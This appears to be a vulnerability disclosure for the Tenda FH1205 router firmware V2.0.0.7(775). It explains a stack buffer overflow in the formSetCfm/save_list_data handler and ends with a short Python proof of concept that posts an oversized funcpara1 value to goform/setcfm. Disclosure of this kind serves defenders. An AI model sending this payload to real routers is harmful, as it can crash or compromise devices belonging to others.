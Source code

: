 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `v10` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(v10, "%s.list%d", a1, v6);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240319133131680](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133131680.png)

![image-20240319133412555](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133412555.png)

![image-20240319133403710](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133403710.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320105336214.png)
